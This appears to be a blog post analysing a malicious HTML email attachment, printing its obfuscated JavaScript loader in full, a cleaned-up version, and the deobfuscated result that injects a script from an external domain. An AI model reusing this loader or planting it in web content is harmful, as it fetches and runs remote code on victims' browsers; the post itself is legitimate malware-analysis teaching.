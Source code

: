 ```yaml
---
setup: |
  import Layout from '../../layouts/BlogPost.astro'
title: Deobfuscating a simple html malware loader
subtitle: 
publishDate: 2023-03-14
description: 
tags: ['obfuscation', 'web', 'malware']
permalink: https://halb.it/posts/html-loader-deobfuscation/
---
```


Recently I got my hands on a malicious spam email that contained an HTML attachment with the following script:

```js
function a0uqiiqu(){var tvtetaepmuol=['124DmjXwe','src','https://dos.com','512295URcyIF','750664RVFSzX',
'36WPNViT','34947uflpIw','59941oAwubn','createElement','1934810DDyBir','47565AALipC','1944VdGjMp',
'.gt/udu/udu.js?','script','12gOlcLD','200pNfvmM','3438gqVBAW'];a0uqiiqu=function(){return tvtetaepmuol;};
return a0uqiiqu();}var a0tauiqnasu=a0ouetecdcnseettrulcs;(function(uegtaapfalc,ipartuuqsrnae){
var umuqirae=a0ouetecdcnseettrulcs,eedxpatuti=uegtaapfalc();while(!![]){try{var lucesdeteds=-parseInt(
umuqirae(0xe9))/0x1*(parseInt(umuqirae(0xe8))/0x2)+-parseInt(umuqirae(0xed))/0x3+parseInt(umuqirae(0xea)
)/0x4*(-parseInt(umuqirae(0xe3))/0x5)+parseInt(umuqirae(0xe7))/0x6*(-parseInt(umuqirae(0xf1))/0x7)+-
parseInt(umuqirae(0xee))/0x8*(-parseInt(umuqirae(0xef))/0x9)+parseInt(umuqirae(0xf3))/0xa+parseInt(
umuqirae(0xf0))/0xb*(parseInt(umuqirae(0xe4))/0xc);if(lucesdeteds===ipartuuqsrnae)break;else eedxpatuti[
'push'](eedxpatuti['shift']());}catch(ieitmuosrseubp){eedxpatuti['push'](eedxpatuti['shift']());}}}(
a0uqiiqu,0x3eb7d));var incidunt=document[a0tauiqnasu(0xf2)](a0tauiqnasu(0xe6));function 
a0ouetecdcnseettrulcs(uqiiqu,ouetecdcnseettrulcs){var uegtaapfalc=a0uqiiqu();return a0ouetecdcnseettrulcs=
function(ipartuuqsrnae,eedxpatuti){ipartuuqsrnae=ipartuuqsrnae-0xe3;var lucesdeteds=uegtaapfalc[
ipartuuqsrnae];return lucesdeteds;},a0ouetecdcnseettrulcs(uqiiqu,ouetecdcnseettrulcs);}incidunt[a0tauiqnasu(
0xeb)]=a0tauiqnasu(0xec)+a0tauiqnasu(0xe5)+'83642',document['head']['appendChild'](incidunt);

```

It is a simple loader that downloads and runs an external script from the internet.
The obfuscation is not sophisticated since it's only there to avoid automated analysis, so despite the scary look, the code is pretty simple to understand.

After formatting everything and renaming some variables, we obtain this code:

```js
function getStrArray() {
  return ["124DmjXwe", "src", "https://dos.com", "512295URcyIF", "750664RVFSzX", "36WPNViT", "34947uflpIw", "59941oAwubn", "createElement", "1934810DDyBir", "47565AALipC", "1944VdGjMp", ".gt/udu/udu.js?", "script", "12gOlcLD", "200pNfvmM", "3438gqVBAW"];
}
function getStrArrayElement(param1, unused_param2) {
    var strArray = getStrArray();
    param1 = param1 - 227;
    return strArray[param1];
}



(function scramble_str_array(getStrArray, hardcodedInteger) {
  var umuqirae = getStrArrayElement, eedxpatuti = getStrArray();
  while (true) {
    try {
      var lucesdeteds = -parseInt(umuqirae(233)) / 1 * (parseInt(umuqirae(232)) / 2) + -parseInt(umuqirae(237)) / 3 + parseInt(umuqirae(234)) / 4 * (-parseInt(umuqirae(227)) / 5) + parseInt(umuqirae(231)) / 6 * (-parseInt(umuqirae(241)) / 7) + -parseInt(umuqirae(238)) / 8 * (-parseInt(umuqirae(239)) / 9) + parseInt(umuqirae(243)) / 10 + parseInt(umuqirae(240)) / 11 * (parseInt(umuqirae(228)) / 12);
      if (lucesdeteds === hardcodedInteger) break; else eedxpatuti.push(eedxpatuti.shift());
    } catch (ieitmuosrseubp) {
      eedxpatuti.push(eedxpatuti.shift());
    }
  }
}(getStrArray, 256893));



var incidunt = document[getStrArrayElement(242)](getStrArrayElement(230));
incidunt[getStrArrayElement(235)] = getStrArrayElement(236) + getStrArrayElement(229) + "83642", document.head.appendChild(incidunt);
```

Lets break it down:

- The first block defines an array of strings

- In the second block a mysterious algorithm inside an infinite loop scrambles the content of the array

- In the final block the actual payload is defined using strings from the scrambled array


The scrambler algorithm looks pretty complicated. Luckily, we don't have to understand it. Instead, we can use an old trick and replace the code payload with a string:

```js
var deobfuscated_payload_str = `
  var incidunt = document[${getStrArrayElement(242)}](${getStrArrayElement(230)});

  incidunt[${getStrArrayElement(235)}] = ${getStrArrayElement(236)} + ${getStrArrayElement(229)} + "83642",
    document.head.appendChild(incidunt);
`

console.log(deobfuscated_payload_str)

```

Now we can safely run the script. Instead of executing its malicious payload, it will kindly print it for us.

Here it is:

```js
var incidunt = document[createElement](script);

incidunt[src] = https://dos.com + .gt/udu/udu.js? + "83642",
  document.head.appendChild(incidunt);
```


